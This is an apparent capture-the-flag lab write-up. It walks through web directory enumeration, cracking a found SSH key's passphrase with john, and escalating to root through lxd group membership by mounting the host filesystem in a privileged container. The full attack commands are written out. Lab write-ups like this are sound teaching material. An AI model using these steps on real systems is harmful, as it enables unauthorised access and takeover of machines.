

# Enumeration
We start our autorecon scan, which quickly reveals ports 22 and 80 as being open.


We follow up with some nmap scans for confirmation and further details.


We'll use gobuster to search for any interesting directories. We'll run the following commands; the first uses a much shorter list.

`gobuster dir -u http://10.10.88.246 -w /usr/share/dirb/wordlists/common.txt -x .txt,.html`

`gobuster dir -u http://10.10.88.246 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x .txt,.html`

While gobuster is running, let's take a look at the web server.


Looking around, we find an `/uploads` page which contains a dictionary file. This seems like a password list, so let's save the contents to a `passwords.txt` file.



If we look at the source code of the homepage, we find a possible username in a comment.


Going back to our gobuster scan results, we find a `/secret` directory containing a secret key, which appears to be a private ssh key.


Let's download it and try to use it to ssh into the machine with the user we found. 
<br>

# Exploitation
Now let's gain initial access using the key we found. First use `chmod 600 secretKey` to ensure the key has the correct permissions set for ssh. Trying to ssh into the machine using `ssh -i secretKey john@10.10.88.246` greets us with a password prompt.


So it seems we need a password in order to use the key we found. Let's use john to try and crack the password using the wordlist we found. First, we'll use ssh2john to convert the key into a file compatible with john: `ssh2john secretKey > secretKey.txt`. Now run john with `john --wordlist=passwords.txt secretKey.txt`. After a few seconds, we get the password. Note that we can use `john --show secretKey.txt` to print the password we cracked again.


From here, we get initial access which we can use to read the `user.txt` flag.


<br>

# Post-Exploitation
Let's look for possible privesc methods. Using `id`, we can we john's user and group information.


A bit of Googling tells us we can exploit the fact that john belongs to the `lxd` group.  LXD refers to a container management system for Linux Containers; [this](https://www.hackingarticles.in/lxd-privilege-escalation) page gives a brief explanation, and also describes the exploit we will use. The exploit can also be found on [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.

Our first step will be to build an Alpine Linux image on the attacking machine. We use:

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

This produces a tar.gz file in the current directory.


Next, host a web server with `python3 -m http.server` and download the tar.gz file on the target machine. We then add the Alpine image as an image to LXD using:

```bash
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz
```

We can verify that this worked using `lxc image list`.


Now we run the following sequence of commands to create a container using the image.

```bash
lxc init <image fingerprint> ignite -c security.privileged=true
lxc config device add ignite <image fingerprint> disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```


It looks like we have root privileges within the container! Let's use `cd /mnt/root` to navigate to the file system, since this is where it is mounted. We then `cd` into `/root`, where we find the `root.txt` flag.

